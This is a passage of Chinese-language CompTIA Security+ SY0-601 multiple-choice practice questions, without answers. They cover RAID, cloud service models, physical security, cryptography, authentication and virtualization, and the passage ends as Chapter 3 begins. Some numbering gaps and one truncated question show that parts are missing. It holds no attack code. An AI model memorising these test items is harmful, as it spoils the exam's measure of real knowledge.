    - A. 攻击者经常在社会工程练习中使用 HVAC 系统。

    - B. HVAC 系统对可用性很重要。

    - C. HVAC 系统是网络防御的主要防线。

    - D. 以上都不是

- **42.** 对称加密相对于非对称加密有什么优势？

    - A. 它更安全。

    - B. 它更快。

    - C. 它可以使用更长的密钥。

    - D. 它简化了密钥分发。

- **43.** 劳拉知道可预测性是用于加密操作的伪随机数生成器（PRNG）中的一个问题。描述用于为 PRNG 播种的不确定性度量的术语是什么？

    - A. 椭圆

    - B. 量子通量

    - C. 熵

    - D. 素性

- **44.** 哪种云服务模型使消费者能够通过互联网使用云提供商提供的应用程序？

    - A. SaaS

    - B. PaaS

    - C. IaaS

    - D. 混合

- **45.** 克里斯在他的云环境中设置了资源策略。这使他能够施加什么类型的控制？

    - A. 它允许他确定可以使用多少磁盘空间。

    - B. 它允许他确定可以使用多少带宽。

    - C. 它允许他指定谁可以访问资源以及他们可以在其上执行什么操作。

    - D. 它允许他指定资源可以对特定用户采取什么操作。

- **46.** 克里斯为他的组织设置了 SAN 复制。他做了什么？

    - A. 他已启用 RAID 1，以确保如果驱动器发生故障，SAN 不会丢失数据，因为驱动器已复制。

    - B. 他已为 SAN 设置了到磁带库的备份，以确保数据弹性。

    - C. 他为他的 SAN 构建了第二套相同的硬件。

    - D. 他已在块或硬件级别将一个 SAN 上的数据复制到另一个 SAN。

- **47.** 迈克是一名安全分析师，刚刚从虚拟服务器中移除了恶意软件。他会使用虚拟化的什么功能将虚拟服务器恢复到上一个已知良好状态？

    - A. 沙箱

    - B. 超级监视器

    - C. 快照

    - D. 弹性

- **48.** 莉萨担心她的数据库服务器的容错能力。她希望确保如果任何单个驱动器发生故障，都可以恢复。哪种 RAID 级别可以在使用分布式奇偶校验位的同时支持这一目标？

    - A. RAID 0

    - B. RAID 1

    - C. RAID 3

    - D. RAID 5

- **49.** 贾罗德担心 EMI 影响密钥托管服务器。哪种方法最有效地缓解这种风险？

    - A. VLAN

    - B. SDN

    - C. 可信平台模块

    - D. 法拉第笼

- **50.** 约翰负责他公司的物理安全。他特别担心攻击者驾驶车辆撞入建筑物。以下哪项能提供最佳的防护？

    - A. 大门

    - B. 防撞柱

    - C. 值班保安

    - D. 安全摄像头

- **51.** 马克负责一所小型学院的网络安全。学生可以使用许多计算机实验室。这些实验室仅由一名学生工作人员监控，他可能并不总是很注意。马克担心计算机被盗。以下哪种方式是他缓解此威胁的最佳方法？

    - A. 电缆锁

    - B. 实验室计算机上的 FDE

    - C. 实验室计算机上的强密码

    - D. 有实验室签到表

- **52.** 乔安负责发电厂的安全。该设施非常敏感，安全极其重要。她希望将双因素身份验证与物理安全相结合。实现这一目标的最佳方式是什么？

    - A. 智能卡

    - B. 一个门禁间，一扇门使用智能卡，另一扇门使用 PIN 键盘

    - C. 带视频监控的门禁间

    - D. 带智能卡门禁的围栏

- 53. 以下哪个术语指的是建立安全标准的过程？

   - A. 基线化

   - B. 安全评估

   - C. 加固

   - D. 规范化

- 54. Angela 配置了一个蜜罐，用于记录用户登录和注销、磁盘使用情况、程序和脚本加载等正在发生的事件。这种欺骗类型称为什么？

   - A. 虚假遥测

   - B. 用户仿真

   - C. 蜜罐伪造

   - D. 深度伪造

- 55. 哪种 RAID 级别是“镜像条带”？

   - A. RAID 1+0

   - B. RAID 6

   - C. RAID 0

   - D. RAID 1

- 56. Isabella 负责数据库管理和安全。她正在尝试消除数据库中的冗余。这个过程称为什么？

   - A. 完整性检查

   - B. 取消配置

   - C. 基线化

   - D. 规范化

- 57. Gary 想要实现一项 AAA 服务。他应该实现以下哪项服务？

   - A. OpenID

   - B. LDAP

   - C. RADIUS

   - D. SAML

- 58. TLS/SSL 检查发生在哪里？它是如何发生的？

   - A. 在客户端，使用代理

   - B. 在服务器上，使用协议分析器

   - C. 在证书颁发机构，通过验证 TLS 证书请求

   - D. 在客户端和服务器之间，通过拦截加密通信

- 59. Diana 想要防止无人机飞越她所在组织的财产区域。她能做什么？

   - A. 部署自动无人机击落系统，将无人机击落。

   - B. 部署射频干扰系统，干扰无人机的控制频率。

   - C. 联系 FAA，将她公司的财产列为禁飞区。

   - D. 以上都不是


- 60. Isaac 配置了一个基于基础设施即代码的云环境，该环境依赖于代码定义的系统构建，以便在服务需要水平扩展时启动新系统。攻击者发现一个漏洞并利用集群中的某个系统，但在他们能够进行取证分析之前，该系统被关闭并终止。什么术语描述这种类型的环境？
  - A. 抗取证
  - B. 非持久性
  - C. 实时启动
  - D. 终止并驻留

- 61. 你负责公司的数据库安全。你担心程序员可能会向数据库传递编写糟糕的 SQL 命令，或者攻击者可能会利用应用程序中编写糟糕的 SQL。缓解这种威胁的最佳方法是什么？
  - A. 正式代码审查
  - B. 编程策略
  - C. 敏捷编程
  - D. 存储过程

- 62. Joanna 的公司采用了多种软件即服务（SaaS）工具，现在希望更好地协调它们，以便每个工具所包含的数据可以用于多种服务。如果她希望最大限度地降低组织长期维护的复杂性，她应该推荐什么类型的解决方案？
  - A. 将 SaaS 服务替换为平台即服务（PaaS）环境，将一切迁移到单一平台。
  - B. 利用内部专业知识构建基于 API 的集成。
  - C. 采用集成平台以利用可扩展性。
  - D. 利用内部专业知识构建平面文件集成。

- 63. Farès 负责管理公司网络上的众多虚拟机。在过去的两年里，公司显著增加了虚拟机的数量。Farès 无法再有效地管理大量机器。这种情况的术语是什么？
  - A. 虚拟机过载
  - B. 虚拟机蔓延
  - C. 虚拟机扩散
  - D. 虚拟机僵尸

- 64. Mary 负责公司的虚拟化管理。她担心虚拟机逃逸。以下哪种方法在缓解这种风险方面最有效？
  - A. 仅在绝对必要时才在虚拟机和主机之间共享资源。
  - B. 保持虚拟机修补更新。
  - C. 在虚拟机上使用防火墙。
  - D. 在虚拟机上使用基于主机的反恶意软件。

- 65. Irene 想要为她所在的组织使用一种云服务，该服务不需要她进行任何编码或系统管理，并且她希望以最少的配置来完成组织需要完成的任务。她最可能正在寻找哪种类型的云服务？
  - A. SaaS
  - B. PaaS
  - C. IaaS
  - D. IDaaS

- 66. 以下哪项不是无服务器架构的优点？
  - A. 它不需要系统管理员。
  - B. 它可以随着函数调用频率的增加而扩展。
  - C. 它可以随着函数调用频率的降低而扩展。
  - D. 它非常适合复杂应用程序。

- 67. 你负责公司的服务器机房安全。你担心计算机被物理盗窃。以下哪项最能检测盗窃或盗窃企图？
  - A. 运动传感器激活的摄像头
  - B. 使用智能卡进入服务器机房
  - C. 服务器机房的坚固门锁
  - D. 记录每个进入服务器机房的人

- 68. Alexandra 想要阻止感染了恶意软件的系统连接到她知道主机名的僵尸网络控制器。她可以实施什么类型的解决方案来防止系统连接到控制器？
  - A. IDS
  - B. 轮询 DNS
  - C. DNS 黑洞
  - D. WAF

- 69. Hector 正在使用红外摄像头来验证数据中心中的服务器是否正确上架。他关注的是以下哪个数据中心要素？
  - A. 电磁干扰屏蔽
  - B. 湿度控制
  - C. 冷热通道
  - D. UPS 故障转移

- 70. Gerald 担心未经授权的人进入公司大楼。以下哪项在防止这种情况方面最有效？
  - A. 报警系统
  - B. 围栏
  - C. 摄像头
  - D. 保安

- 71. 以下哪项是实施 SDN 最重要的好处？
  - A. 它将阻止恶意软件。
  - B. 它提供可扩展性。
  - C. 它将检测入侵。
  - D. 它将防止会话劫持。

- 72. Mark 是一家医疗保健公司的管理员。他必须支持一个较旧的遗留应用程序。他担心这个遗留应用程序可能存在会影响网络其他部分的漏洞。缓解这一风险的最有效方法是什么？
  - A. 使用应用程序容器。
  - B. 实施 SDN。
  - C. 在单独的 VLAN 上运行该应用程序。
  - D. 坚持使用应用程序的更新版本。

- 73. Charles 正在对内部开发的 Web 应用程序进行安全审查。在审查过程中，他注意到编写该应用程序的开发人员使用了第三方库。作为审查的一部分，他应该指出哪些风险？
  - A. 使用易受攻击的第三方库编译的代码需要使用修补后的库重新编译。
  - B. 通过代码仓库使用的库可能变得不可用，从而导致应用程序崩溃。
  - C. 恶意代码可能会在开发人员不知情的情况下被添加。
  - D. 以上所有项

- 74. Valerie 正在考虑部署云访问安全代理。她在考虑哪种类型的工具？
  - A. 在云基础设施上实施强制访问控制的系统
  - B. 位于云用户和应用程序之间以监视活动和执行策略的工具
  - C. 位于云应用程序提供商和客户之间以执行 Web 应用程序安全策略的工具
  - D. 在云基础设施上实施自主访问控制的系统

- 75. Derek 被要求将其组织的面向服务架构实施为一组微服务。他需要实施什么？
  - A. 一组具有特定用途的松耦合服务
  - B. 一组运行在非常小的系统上的服务
  - C. 一组紧耦合的服务，使用定制设计的协议以确保持续运行
  - D. 一组使用第三方应用程序的服务，这些应用程序在支持行业标准协议的连接网络中运行

- 76. Abigail 负责一家大型跨国公司的数据中心。她必须支持分布在多个地理区域的数据中心。对她来说，在企业范围内一致地管理这些中心的最有效方法是什么？
  - A. 为每个中心招聘数据中心经理。
  - B. 实施企业级 SDN。
  - C. 实施基础设施即代码（IaC）。
  - D. 自动化配置和取消配置。

- 77. Elizabeth 想要实施一个基于云的授权系统。她最可能使用以下哪种协议来实现该目的？
  - A. OpenID
  - B. Kerberos
  - C. SAML
  - D. OAuth

- 78. Greg 正在评估一个组织，发现他们有许多可从公共互联网访问的多功能打印机（MFP）。他应该指出的最严重的安全问题是什么？
  - A. 第三方可以打印到打印机上，消耗耗材。
  - B. 打印机可能被用作 DDoS 攻击的一部分。
  - C. 打印机可能允许攻击者访问公司网络的其他部分。
  - D. 扫描仪可能被访问，使攻击者能够扫描留在其中的文档。

- 79. Keith 为公司的用户部署了计算机，这些计算机从中央服务器环境加载资源，而不是从它们自己的硬盘加载。什么术语描述这种模式？
  - A. 胖客户端
  - B. 客户端即服务器
  - C. 云桌面
  - D. 瘦客户端

- 85. 什么术语用于描述允许在密文上执行计算，且计算结果与在原始明文上执行相同计算所得结果一致的加密方式？
  - A. 身份保持加密
  - B. 同态加密
  - C. 可复制加密
  - D. 以上都不是

- 86. 托尼想在他的组织中实施用于门禁的生物识别系统。以下哪种系统最可能被其组织员工接受？
  - A. 指纹
  - B. 视网膜
  - C. 虹膜
  - D. 语音

- 87. 内森想要实施异地冷备份。哪种备份技术最常用于此类需求？
  - A. SAN
  - B. 磁盘
  - C. 磁带
  - D. NAS

- 88. 艾伦正在考虑实施异地存储。当他这样做时，其数据中心经理提供了四种解决方案。以下哪种解决方案最能确保恢复能力，原因是什么？
  - A. 备份到附近另一栋楼的第二个数据中心，以降低备份延迟。
  - B. 备份到至少90英里外的异地位置，确保自然灾害不会同时摧毁两份副本。
  - C. 备份到附近另一栋楼的第二个数据中心，以确保主楼断电时数据仍可访问。
  - D. 备份到至少10英里外的异地位置，以在延迟和自然灾害恢复能力之间取得平衡。

- 89. 本被要求解释其组织正在考虑构建和销售的嵌入式系统的安全影响。以下哪项不是嵌入式系统的典型关注点？
  - A. 处理器能力有限
  - B. 无法修补
  - C. 缺乏身份验证能力
  - D. 缺乏大容量存储

- 90. 你担心公司新实施的设备的安全。其中一些设备使用SoC技术。针对这些设备，你能采取的最佳安全措施是什么？
  - A. 使用TPM
  - B. 确保每个设备都有自己的加密密钥
  - C. 使用SED
  - D. 使用BIOS保护

- 91. 文森特在一家制造胰岛素泵等便携式医疗设备的公司工作。他担心确保这些设备的安全。以下哪项是他应采取的最重要步骤？
  - A. 确保与设备的所有通信都被加密。
  - B. 确保设备具有FDE。
  - C. 确保设备拥有独立的防恶意软件。
  - D. 确保设备已经过模糊测试。

- 92. 埃米尔担心车辆中计算机系统的安全。以下哪种车型存在重大的网络安全漏洞？
  - A. 无人机
  - B. 汽车
  - C. 飞机
  - D. 以上所有

- 93. 如果阿曼达使用的是编译软件，且只有该软件的二进制文件，那么她无法实施以下哪项额外的安全控制？
  - A. 她可以审查源代码。
  - B. 她可以在实时环境中测试应用程序。
  - C. 她可以检查供应商提供的校验和。
  - D. 以上都不是

- 94. 格蕾塔想了解一个协议是如何工作的，包括使用该协议的数据包中应包含哪些值。这些数据在哪里被权威地定义和记录？
  - A. RFC
  - B. 维基百科
  - C. 互联网档案馆
  - D. 以上都不是

- 95. 使用标准命名约定有许多优点。以下哪项不是使用命名约定的优点？
  - A. 它可以帮助管理员确定系统的功能。
  - B. 它可以帮助管理员识别配置错误或流氓系统。

- 105. 纳撒尼尔想要提高其数据中心中服务器的容错能力。如果他想确保停电不会导致服务器断电，他应该从以下列表中最先部署哪项控制措施？
  - A. 不间断电源（UPS）
  - B. 发电机
  - C. 双电源
  - D. 托管电源分配单元（PDU）

- 106. 以下哪项是虚拟机蔓延（VM sprawl）的最佳描述？
  - A. 当网络上的虚拟机数量超过物理机数量时
  - B. 当虚拟机数量超过IT能够有效管理的数量时
  - C. 当计算机上的虚拟机开始消耗过多资源时
  - D. 当虚拟机分布在广域网上时

- 107. 以下哪项是存储过程的最佳描述？
  - A. 位于DLL中而非可执行文件中的代码
  - B. 从客户端调用的服务器端代码
  - C. 在数据库服务器上编译为可被调用的单个过程的SQL语句
  - D. 保留在与调用应用程序分离的服务器（如中间件）中的过程

- 108. 法雷斯负责其公司的安全。他已在大楼前安装了防撞柱。法雷斯试图达到什么目的？
  - A. 为进入大楼的人员提供门禁通道
  - B. 大楼周围的视频监控
  - C. 防止电磁干扰
  - D. 防止车辆被开进大楼

- 109. 塞拉工作的公司使用带磁条的徽章进行门禁。对于这类徽章，塞拉应该关注哪种威胁模型？
  - A. 徽章克隆
  - B. 尾随
  - C. 未经授权人员使用
  - D. 以上所有

- 110. 你担心虚拟机逃逸攻击导致重大数据泄露。以下哪项能够对此提供最大保护？
  - A. 按数据类型或敏感程度分隔VM主机。
  - B. 在VM和主机上都安装基于主机的防病毒软件。
  - C. 在VM和主机上都实施FDE。
  - D. 在主机上使用TPM。

- 111. 特蕾莎是一家小公司的网络管理员。公司对稳健而现代的网络防御策略感兴趣，但缺乏人员来支持它。特蕾莎的最佳解决方案是什么？
  - A. 实施SDN。
  - B. 使用自动化安全。
  - C. 使用MSSP。
  - D. 只实施他们有能力实施的少数安全控制。

- 112. 丹尼斯想要建立一个分析其网络上应用程序完整性的系统。他想确保应用程序没有被篡改或植入特洛伊木马。在实现这个目标时，以下哪项最有用？
  - A. 实施NIPS。
  - B. 使用加密哈希。
  - C. 将相关应用程序放入沙箱。
  - D. 实施NIDS。

- 113. 乔治是发电厂的网络管理员。他注意到上周几台涡轮机出现了异常循环上升。调查后，他发现一个可执行文件被上传到系统控制台并导致了这种情况。以下哪项能最有效地防止这种情况将来影响SCADA系统？
  - A. 实施SDN。
  - B. 改进补丁管理。
  - C. 将SCADA系统放在单独VLAN上。
  - D. 实施加密数据传输。

- 114. 戈登知道回归测试很重要，但希望防止旧版本代码被重新插入新版本。他应该使用什么流程来防止这种情况？
  - A. 持续集成
  - B. 版本编号
  - C. 持续部署
  - D. 发布管理

- 115. 米娅是一家银行的网络管理员。她负责与其公司客户网站的安全通信。以下哪项是她应该实施的最佳方案？
  - A. SSL
  - B. PPTP
  - C. IPSec
  - D. TLS

- 116. 以下哪项不是基于智能卡的身份验证系统的常见挑战？
  - A. 由于智能卡加密支持的限制导致安全性薄弱
  - B. 由于读卡器、分发和软件安装导致额外费用
  - C. 由于每次身份验证都需要插入卡片导致用户体验较差
  - D. 由于仅使用持卡这一因素而缺乏安全性

- 117. 苏珊的安全建筑配有警报器，当特定门被打开时会响起。作为渗透测试的一部分，苏珊想确定警报是否有效。渗透测试人员使用什么技术来降低警报的效果？
  - A. 作为预先宣布的测试的一部分触发警报
  - B. 禁用警报，然后打开门，看员工是否会报告被打开的门
  - C. 让员工打开门，看他们是否会触发警报
  - D. 反复触发警报，使员工习惯听到警报响起

- 118. 用什么术语来描述“一切皆服务”的通用概念？
  - A. AaaS
  - B. ATaaS
  - C. XaaS
  - D. ZaaS

- 119. 标牌在建筑安全中扮演什么角色？
  - A. 它是一种预防性控制，警告未经授权的人远离安全区域。
  - B. 它可以通过警告危险区域、材料或设备来帮助保障安全。
  - C. 它可以为疏散和一般导航提供方向。
  - D. 以上所有

- 120. 诺拉租了一栋拥有带宽和电力接入的建筑，以备她的组织未来遭遇灾难时使用。她建立的是什么类型的站点？
  - A. 热站点
  - B. 冷站点
  - C. 温站点
  - D. MOU站点

- 121. 马特正在修补Windows系统，希望有能力恢复到上一个已知良好配置。他应该设置什么？
  - A. 系统还原点
  - B. 还原标记
  - C. 非持久补丁点
  - D. 实时启动标记

- 122. 如果系统或设备的时间不正确，哪种多因素认证可能会出现问题？
  - A. TOTP
  - B. 短信
  - C. HOTP
  - D. MMAC

- 123. Nina 所在的公司最近在低安全性配送区域发生了包裹被盗事件。他们可以使用哪种摄像机功能来确保最近送达的包裹得到妥善监控？
  - A. 红外图像捕获
  - B. 运动检测
  - C. 目标检测
  - D. 人脸识别

- 124. 以下哪项不是可穿戴设备常见的企业安全关注点？
  - A. GPS 位置数据暴露
  - B. 数据暴露
  - C. 用户健康数据暴露
  - D. 不安全的无线连接

- 125. Tim 正在服务器机房周围建造法拉第笼。法拉第笼的主要用途是什么？
  - A. 调节温度
  - B. 调节电流
  - C. 阻止入侵
  - D. 屏蔽电磁干扰

- 126. 你在一家大型公司工作。你想找到一种解决方案，既能对大楼进行受控的物理访问，又能记录进入大楼的每位员工。以下哪项最适合实施？
  - A. 带签到表的保安
  - B. 使用电子锁的智能卡门禁
  - C. 入口处的摄像头
  - D. 前门的签到表

- 127. 是什么担忧导致组织选择物理锁而不是电子锁？
  - A. 它们提供更高的安全性。
  - B. 它们能抵抗绕过尝试。
  - C. 它们更难撬开。
  - D. 它们不需要电源。

- 128. Kara 被要求将 IP 架构管理作为其配置管理工作的一部分。以下哪项是 IP 架构配置管理的安全优势？
  - A. 检测非法设备
  - B. 使用 IP 地址保护加密密钥
  - C. 防止拒绝服务攻击
  - D. 避免 IP 地址耗尽

- 129. Carole 担心服务器机房的安全。她想为服务器机房的门找到最安全的锁。以下哪项是她的最佳选择？
  - A. 密码锁
  - B. 球形锁
  - C. 插芯门锁
  - D. 挂锁

- 130. Melissa 想在她的数据中心为服务器实施 NIC 成组。这将为她提供哪两种主要能力？
  - A. 更低的延迟和更大的吞吐量
  - B. 更大的吞吐量和容错能力
  - C. 更高的延迟和容错能力
  - D. 容错能力和更低的延迟

- 131. Molly 正在她的公司实施生物识别技术。以下哪项是她最关心的问题？
  - A. 误接受率
  - B. 误拒绝率
  - C. 交叉错误率
  - D. 等错误率

- 132. Mike 担心其组织采集和维护的数据的数据主权。以下哪项最能描述他的担忧？
  - A. 谁拥有托管在云提供商基础设施上的系统所采集的数据？
  - B. Mike 的组织能否对其服务所涉及的数据做出决定，还是这些数据属于用户？
  - C. 数据是否位于一个国家，并受其存储国家法律的约束？
  - D. 数据本身是否拥有权利，还是数据所有者决定适用于它的权利？

- 133. 低功耗设备上密码学的关键限制因素有哪些？
  - A. 内存、CPU 和存储存在系统限制。
  - B. 由于无法分解质因数，设备不支持公钥加密。
  - C. 缺乏芯片组对加密的支持。
  - D. 低功耗设备的法律限制阻碍了加密支持。

- 134. Fred 负责公司的物理安全。他想找到一种好方法来保护存储有 BitLocker 密钥的 USB 闪存盘。这种情况下以下哪项是最好的解决方案？
  - A. 将驱动器存放在安全的柜子或保险箱中。


- **B.** 加密闪存盘。
- **C.** 不要在这些驱动器上存储 BitLocker 密钥。
- **D.** 将闪存盘锁在办公桌抽屉里。

**135.** Juanita 负责公司的服务器。她正在寻找一种能够处理两块驱动器故障的容错解决方案。她应该选择以下哪项？

- **A.** RAID 3
- **B.** RAID 0
- **C.** RAID 5
- **D.** RAID 6

**136.** Maria 的组织在其主办公大楼使用 CCTV 监控系统，该大楼全天候有人使用。系统使用连接到显示器的摄像机提供实时监控。以下哪项附加功能最有可能收到请求，以确保她的组织能有效使用 CCTV 系统应对盗窃等问题？

- **A.** 运动激活
- **B.** 红外摄像机
- **C.** 数字视频录像机
- **D.** 人脸识别

**137.** 针对多因素认证中使用的静态代码，主要威胁模型是什么？

- **A.** 暴力破解
- **B.** 碰撞
- **C.** 盗窃
- **D.** 时钟不匹配

**138.** Dennis 需要一种提供低延迟的加密算法。哪种密码系统最有可能满足这一性能要求？

- **A.** 哈希
- **B.** 对称加密
- **C.** 非对称加密
- **D.** 电子一次性密码本

**139.** Devin 所在的公司选择了一座不起眼的建筑，并且没有使用外部标识来宣传该设施属于他们。哪种物理安全术语描述了这种安全控制？

- **A.** 工业伪装
- **B.** 非军事区
- **C.** 工业混淆
- **D.** 破坏性涂装

**140.** Ed 知道 TLS 会话开始时使用非对称加密，然后转向使用对称密钥。非对称密码学的哪个局限性导致了这种设计决策？

- **A.** 速度和计算开销
- **B.** 密钥长度限制
- **C.** 暴力破解所需时间
- **D.** 非对称算法的密钥重用

**141.** 当您关注应用程序安全时，内存管理中最重要的问题是什么？

- **A.** 永远不要分配比所需更大的变量。
- **B.** 始终检查数组边界。
- **C.** 总是在需要的地方声明变量（例如，尽可能在函数或文件级别）。
- **D.** 确保释放您分配的任何内存。

**142.** Bart 希望确保他加密的文件尽可能长时间保持安全。Bart 应该怎么做才能最大限度地延长其加密文件的安全性？

- **A.** 使用量子密码。
- **B.** 使用尽可能长的密钥。
- **C.** 使用抗量子密码。
- **D.** 使用轮换的对称密钥。

**143.** Nadine 的组织存储和使用敏感信息，包括社会安全号码。在最近一次入侵之后，她被要求实施能够帮助防止这些敏感数据离开公司系统和网络的技术。Nadine 应该实施哪种类型的技术？

- **A.** 状态防火墙
- **B.** 原始设备制造商
- **C.** 数据丢失防护
- **D.** 安全信息和事件管理

**144.** 用于量子密钥分发的数据以什么形式发送？

- **A.** 字节
- **B.** 比特
- **C.** 量子比特
- **D.** Nuquants

**145.** Alicia 需要确保一个流程不能被单个员工破坏。她能实施哪种安全控制来防止这种情况？

- **A.** 生物识别认证
- **B.** 双人控制
- **C.** 机器人哨兵
- **D.** 非军事区

**146.** 社交登录，即使用来自 Google、Facebook 或 Microsoft 账户等现有身份的能力，是以下哪个概念的例子？

- **A.** 联合
- **B.** 认证、授权和审计
- **C.** 权限蔓延
- **D.** 身份和访问管理

**147.** Michelle 正在旅行，想将手机插入酒店房间的充电器。她可以使用哪种安全预防措施来确保手机不会受到房间充电器中内置恶意设备的攻击？

- **A.** USB 数据阻断器
- **B.** 并行 USB 线
- **C.** 数据断路器
- **D.** HOTP 询问器

**148.** 哪种云服务模式为消费者提供创建和托管应用程序的基础设施？

- **A.** 软件即服务
- **B.** 平台即服务
- **C.** 基础设施即服务
- **D.** 身份即服务

**149.** 为什么建议避免初始化向量和密钥重用以确保加密安全？

- **A.** 它使暴力破解不可能。
- **B.** 这意味着一次成功的攻击不会暴露多条消息。
- **C.** 这意味着一次成功的攻击不会暴露任何消息。
- **D.** 它使暴力破解更容易。

**150.** Dan 知道他的 Linux 系统会生成用于多种功能的熵，包括加密。以下哪一项是 Linux 内核熵的来源？

- **A.** 一天中的时间
- **B.** 用户登录事件
- **C.** 击键和鼠标移动
- **D.** 网络数据包时序

**151.** Mike 知道计算开销是密码系统的一个问题。他可以做些什么来帮助限制其解决方案的计算需求？

- **A.** 改用哈希。
- **B.** 使用短密钥。
- **C.** 使用椭圆曲线加密。
- **D.** 使用 RSA 算法。

**152.** 照明在物理安全环境中的主要作用是什么？

- **A.** 它充当侦测控制。
- **B.** 它充当响应控制。
- **C.** 它充当威慑控制。
- **D.** 它充当补偿控制。

**153.** Dennis 已在组织运营的每个设施部署服务器和存储，以确保科学设备能够以其正常运行所需速度发送和接收数据。什么计算设计概念描述了这种情况？

- **A.** 混合云
- **B.** 雾计算
- **C.** 边缘计算
- **D.** 本地云

**154.** Ben 用唯一标识符替换数据库中的敏感数据。这些标识符使他能够在不暴露数据本身的情况下继续对数据执行操作。他部署了哪种类型的解决方案？

- **A.** 掩码
- **B.** 加密
- **C.** 哈希
- **D.** 令牌化

**155.** Dana 希望阻止潜在的恶意行为者访问她的设施。以下哪一项既是威慑措施又是物理控制？

- **A.** 访客日志
- **B.** 运动探测器
- **C.** 安全摄像头
- **D.** 围栏

**156.** 在加密消息上添加数字签名会提供哪些额外功能？

- **A.** 完整性和不可否认性
- **B.** 保密性和完整性
- **C.** 可用性和不可否认性
- **D.** 保密性和可用性

**157.** Megan 被要求为组织中的账户设置定期证明流程。她被要求做什么？

- **A.** 验证用户是否仍受雇。
- **B.** 验证用户的权利和权限是否仍然正确。
- **C.** 要求用户提供身份证明。
- **D.** 作为测试的一部分验证安全控制。

**158.** Elaine 希望为自然灾害采用适当的响应和恢复控制。面对龙卷风造成的数小时停电，她应使用何种类型的控制来做好准备？

- **A.** 热站点
- **B.** 发电机
- **C.** PDU
- **D.** UPS

**159.** 消息认证码（MAC）在用作密码系统的一部分时做什么？

- **A.** 它验证消息的完整性和真实性。
- **B.** 它验证消息的保密性和真实性。
- **C.** 它保护消息的保密性和完整性。
- **D.** 以上均无

**160.** Charles 希望在高度敏感电子设备使用的区域安装火灾抑制系统。如果 Charles 担心对急救人员或现场工作人员造成潜在伤害，哪种类型的火灾抑制系统最适合这种环境？

- **A.** 预充式
- **B.** 干管式
- **C.** 惰性气体
- **D.** 二氧化碳

**161.** 通常使用什么技术用于接近卡读卡器？

- **A.** 磁条
- **B.** 生物识别
- **C.** RFID
- **D.** 红外线

**162.** 非对称加密如何支持不可否认性？

- **A.** 使用数字签名
- **B.** 使用更长的密钥
- **C.** 使用可逆哈希
- **D.** 使用接收者的公钥

**163.** Olivia 知道她需要将地理位置作为安全考虑的一部分。以下哪一项是安全地理考虑的主要驱动因素？

- **A.** MTR
- **B.** 自然灾害
- **C.** 服务集成
- **D.** 避免蔓延

**164.** Scott 希望限制无人机潜在威胁的影响。哪种物理安全控制最适合此目的？

- **A.** 增加更多围栏
- **B.** 将敏感区域移至建筑物内部
- **C.** 部署生物识别传感器
- **D.** 将敏感区域移至法拉第笼

**165.** Derek 希望解释使用加密时资源限制驱动安全限制的概念。以下哪种描述最能解释他应向管理层说明的权衡？

- **A.** 更强的加密需要驱动器上更多的空间，这意味着越难破解，就需要越多的存储，从而推高成本。
- **B.** 更强的加密速度更快，这意味着使用强加密将导致更低的延迟。
- **C.** 更强的加密需要更多的熵。当熵耗尽时，这可能会降低系统的整体安全性。
- **D.** 更强的加密需要更多的计算资源，需要在速度和安全性之间取得平衡。

**166.** Amanda 希望确保她发送的消息保持保密。她应怎么做以确保这一点？

- **A.** 对消息进行哈希处理。
- **B.** 对消息进行数字签名。
- **C.** 对消息进行加密。
- **D.** 使用量子加密算法。

**167.** 对于大多数中小型组织，亚马逊、谷歌和微软等云服务提供商与本地员工和系统相比有什么安全优势？

- **A.** 对组织业务实践的更好理解
- **B.** 更快的响应时间
- **C.** 更多安全人员和预算
- **D.** 以上均无

**168.** Tim 希望确保他的 Web 服务器在流量增加期间能够水平扩展，同时允许在不造成停机的情况下进行修补或升级。他应部署哪种类型的网络设备？

- **A.** 防火墙
- **B.** 交换机
- **C.** 水平扩展器
- **D.** 网络负载均衡器

**169.** Gabby 希望通过使用物理保护措施确保敏感数据可以以未加密形式传输。她应实施哪种类型的解决方案？

- **A.** 屏蔽电缆
- **B.** 装甲电缆
- **C.** 分配锁定
- **D.** 受保护的电缆分配

**170.** Maureen 通过以不会明显改变其声音的方式修改 MP3 文件来隐蔽地传输她想要传输的信息。这种技术叫什么？

- **A.** MP3crypt
- **B.** 音频隐写术
- **C.** 音频哈希
- **D.** 蜜罐 MP3

**171.** Nicole 正在评估其多因素身份验证系统的风险。以下哪一项是对她环境中向手机发送的短信推送通知最可能的威胁模型？

- **A.** 对 VoIP 系统的攻击
- **B.** SIM 卡克隆
- **C.** 暴力攻击
- **D.** 彩虹表

**172.** John 希望保护静态数据，以便他可以按需处理和使用其原始形式。以下哪种解决方案最适合此要求？

- **A.** 哈希
- **B.** TLS
- **C.** 加密
- **D.** 令牌化

**184.** Chris 正在审查组织员工对一组部门文件共享中存储的数据的权利。他担心权利管理实践未被遵循，并且在更换工作后仍在公司工作的员工的权限未被移除。Chris 遇到的是什么类型的问题？

- **A.** 权限蔓延
- **B.** IAM 膨胀
- **C.** 掩码问题
- **D.** 权限提升

**185.** Isaac 被要求设置一个蜜文件。他应配置什么？

- **A.** 一项任务清单
- **B.** 一份潜在有价值数据的清单
- **C.** 一个诱饵文件供攻击者访问
- **D.** 一个易受攻击的 Word 文件

**186.** Yasmine 希望确保她已满足数据中心地理分散要求。根据分散的常见最佳实践，她应将数据中心放置多远？

- **A.** 5 英里
- **B.** 45 英里
- **C.** 90 英里
- **D.** 150 英里

**187.** 什么术语描述了将云计算扩展到企业网络边缘？

- **A.** 本地云
- **B.** 雾计算
- **C.** 管理云
- **D.** 刀片计算

**188.** 以下哪种算法是密钥拉伸算法？

- **A.** bcrypt
- **B.** ncrypt
- **C.** MD5
- **D.** SHA1

**189.** Jocelyn 被要求实现一个目录服务。她应部署以下哪种技术？

- **A.** SAML
- **B.** OAuth
- **C.** LDAP
- **D.** 802.1x


## 第 3 章

### 实施

本章涵盖的 CompTIA Security+ 考试 SY0-601 主题如下：

- ✓ **3.1** 在给定场景下，实施安全协议
- ✓ **3.2** 在给定场景下，实施主机或应用程序安全解决方案
- ✓ **3.3** 在给定场景下，实施安全网络设计
- ✓ **3.4** 在给定场景下，安装和配置无线安全设置
- ✓ **3.5** 在给定场景下，实施安全移动解决方案
- ✓ **3.6** 在给定场景下，将网络安全解决方案应用于云
- ✓ **3.7** 在给定场景下，实施身份和账户管理控制
- ✓ **3.8** 在给定场景下，实施身份验证和授权解决方案
- ✓ **3.9** 在给定场景下，实施公钥基础设施

**1.** Adam 正在搭建公钥基础设施（PKI），他知道保管用于生成新密钥的通行短语和加密密钥是确保根证书颁发机构保持安全的关键环节。以下哪项技术不是帮助防止内部威胁的常见解决方案？

- **A.** 每次使用证书时都要求新的通行短语。
- **B.** 对密码或密钥使用知识拆分流程。
